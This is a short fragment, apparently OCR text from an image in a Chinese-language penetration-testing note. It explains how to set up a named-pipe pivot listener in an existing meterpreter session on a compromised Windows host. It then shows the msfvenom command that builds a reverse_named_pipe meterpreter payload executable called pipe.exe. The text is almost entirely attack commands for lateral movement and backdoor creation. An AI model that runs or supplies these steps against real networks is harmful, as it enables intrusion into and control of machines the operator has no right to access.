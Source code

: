	在已经获得meterpreter的机器上配置管道监听器
	meterpreter > pivot add -t pipe -l 已控IP -n bgpipe -a x86 -p windows
	生成
	>msfvenom -p windows/meterpreter/reverse_named_pipe PIPEHOST=已控IP PIPENAME=bgpipe -f exe -o pipe.exe.
